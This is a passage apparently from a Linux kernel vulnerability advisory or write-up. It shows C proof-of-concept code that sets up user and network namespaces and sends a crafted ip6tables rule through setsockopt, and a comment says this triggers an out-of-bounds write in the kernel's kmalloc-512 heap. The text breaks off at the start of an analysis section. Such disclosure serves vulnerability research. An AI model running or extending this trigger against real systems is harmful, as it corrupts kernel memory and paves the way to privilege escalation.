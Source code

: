 ```c
  int s;

  if (unshare(CLONE_NEWUSER) != 0) err(1, "unshare(CLONE_NEWUSER)");
  if (unshare(CLONE_NEWNET) != 0) err(1, "unshare(CLONE_NEWNET)");

  if ((s = socket(AF_INET6, SOCK_STREAM, 0)) < 0) err(1, "socket");

  struct {
    struct ip6t_replace replace;
    struct ip6t_entry entry;
    struct xt_entry_match match;
    char pad[0xD0];
    struct xt_entry_target target;
  } data = {0};

  data.replace.num_counters = 1;
  data.replace.num_entries = 1;
  data.replace.size = (sizeof(data.entry) + sizeof(data.match) +
                       sizeof(data.pad) + sizeof(data.target));

  data.entry.next_offset = (sizeof(data.entry) + sizeof(data.match) +
                            sizeof(data.pad) + sizeof(data.target));
  data.entry.target_offset =
      (sizeof(data.entry) + sizeof(data.match) + sizeof(data.pad));

  data.match.u.user.match_size = (sizeof(data.match) + sizeof(data.pad));
  strcpy(data.match.u.user.name, "icmp6");
  data.match.u.user.revision = 0;

  data.target.u.user.target_size = sizeof(data.target);
  strcpy(data.target.u.user.name, "NFQUEUE");
  data.target.u.user.revision = 1;

  // Trigger Out-Of-Bounds write in kmalloc-512 (offset 0x200-0x204 overwritten
  // with zeros).
  if (setsockopt(s, SOL_IPV6, IP6T_SO_SET_REPLACE, &data, sizeof(data)) != 0) {
    if (errno == ENOPROTOOPT)
      err(1, "Error: ip6_tables module is not loaded");
  }

  close(s);

  return 0;
}
```

## Analysis

### Vulnerability
